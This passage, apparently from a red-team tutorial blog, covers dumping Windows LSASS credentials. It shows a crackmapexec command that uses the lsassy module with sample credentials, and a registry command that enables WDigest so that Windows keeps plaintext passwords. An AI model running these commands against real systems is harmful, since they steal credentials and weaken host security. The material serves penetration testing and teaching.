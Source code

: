 Lsassy is also available in crackmapexec.

```bash
└─$ crackmapexec smb 192.168.x.x -u 0xhav0c -p Password123! -M lsassy
```
![Getting LSASS dump with Crackmapexec lsassy module.](/assets/img/pitcures/red-team/dumplsass14.png)
_Getting LSASS dump with Crackmapexec lsassy module._

The methods shown up to this section were for devices that hold hashes and plaintext credentials.

## Enabling Wdigest and Obtaining Plain Text Credentials

WDigest is disabled on newer machines. It is possible for attackers to enable this plaintext credentials when a user logs in. WDigest can be enabled by setting the required registry key to "1" instead of "0":

```bash
C:\Users\0xhav0c> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /d 1
```
![Entering a registry key.](/assets/img/pitcures/red-team/dumplsass15.png)
_Enabling Wdigest with entering a registry key._

![On victim machine: Attached registry image.](/assets/img/pitcures/red-team/dumplsass16.png)
_On victim machine: Attached registry image._
Additionally, this can be done remotely with Crackmapexec:
